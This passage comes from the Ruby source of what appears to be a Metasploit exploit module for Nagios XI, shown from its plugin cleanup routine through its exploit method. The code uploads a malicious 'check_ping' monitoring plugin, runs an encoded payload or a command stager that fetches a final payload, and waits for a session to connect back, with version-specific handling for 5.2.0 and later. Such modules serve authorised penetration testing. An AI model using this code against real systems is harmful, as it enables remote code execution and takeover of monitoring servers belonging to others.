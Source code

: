        unless res.code == 200 && res.body.include?('Plugin deleted')
          print_warning("Failed to delete the malicious 'check_ping' plugin. Manual cleanup is required.")
          return
        end

        print_good('Plugin deleted.')
      end

      def exploit
        @monitoring_plugins_url = normalize_uri(target_uri.path, 'admin', 'monitoringplugins.php')
        grab_plugins_nsp
        wfsdelay = datastore['WfsDelay']

        if @version < Rex::Version.new('5.2.0')
          fail_with(Failure::NoTarget, "Target is vulnerable but this module does not support exploiting NagiosXI #{@version} at this time.")
        end
        if target.arch.first == ARCH_CMD
          execute_command(payload.encoded)
          message = "Waiting up to #{wfsdelay} seconds for the payload to connect back..."
        else
          execute_cmdstager(background: true)
          message = "Waiting up to #{wfsdelay} seconds for the plugin to request the final payload..."
        end
        if @version >= Rex::Version.new('5.2.0') && @version < Rex::Version.new('5.5.0')
          print_warning("For NagiosXi version #{@version} it may take serveral minutes for a session to open. If the module times out, try increasing the `WfsDelay` value.")
        end
        print_good('Successfully uploaded plugin.')
        execute_payload
        print_status(message)
      end
    end